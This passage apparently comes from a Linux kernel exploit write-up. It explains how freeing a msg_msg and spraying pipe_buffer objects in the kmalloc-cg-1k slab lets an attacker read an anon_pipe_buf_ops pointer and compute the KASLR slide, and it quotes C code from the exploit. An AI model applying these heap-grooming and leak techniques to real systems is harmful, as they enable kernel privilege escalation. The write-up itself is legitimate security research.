 If we call `pipe` syscall, the `struct pipe_buffer` objects will be allocated.
Then, if we call `write` syscall to the pipe file descriptor, it will leave
vtable pointers to the `struct pipe_buffer` objects. It is worth noting that
these buffer objects are allocated in `kmalloc-cg-1k` slab (Actually, these
buffer objects can have variable sizes though).  

- [exploit/extra-refined/exploit.c#L929](../exploit/extra-refined/exploit.c#L929)
```c
// release the lower msg_msg and spray pipe_buf
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(lower_msg_msg_holder, msg, sizeof(msg_buf), 0, IPC_NOWAIT);
if (ret < 0)
	perror("msgrcv");

for (int i = 0; i < 0x100; i++)
{
	if (pipe(pipefd[i]) < 0)
		err(1, "pipe()");
	write(pipefd[i][1], "aaaaaaaa", 8);
}
```
We free the `struct msg_msg` located below the unaligned `struct msg_msgseg` chunk through `lower_msg_msg_holder`, and then try to reclaim corresponding chunks with `struct pipe_buffer` objects by `pipe` syscall.

- [exploit/extra-refined/exploit.c#L942](../exploit/extra-refined/exploit.c#L942)
```c
// leak the kalsr slide with anon_pipe_buf_ops leak
uintptr_t kaslr_slide = -1;
uintptr_t anon_pipe_buf_ops_addr = -1;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
payload = (uintptr_t *)msg->mtext;
// for(size_t i = 500; i < ret / 8; i ++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }

anon_pipe_buf_ops_addr = payload[513];
if ((anon_pipe_buf_ops_addr & 0xfff) != (curr_gadget->anon_pipe_buf_ops_offset & 0xfff))
{
	err(1, "fail to leak kaslr...");
}
printf("[+] anon_pipe_buf_ops_addr : %p\n", anon_pipe_buf_ops_addr);
kaslr_slide = anon_pipe_buf_ops_addr - curr_gadget->anon_pipe_buf_ops_offset;
printf("[+] kaslr slide : %p\n", kaslr_slide);
```
Now we can finally get the KASLR leak by reading `struct pipe_buffer` object through the unaligned `struct msg_msgseg` held by `msgqids1[0]`. Note that we used `MSG_COPY` flag with `msgrcv` syscall since we don't want the unaligned `struct msg_msgseg` chunk to be freed yet.

![lts_5](./img/lts_5.png)
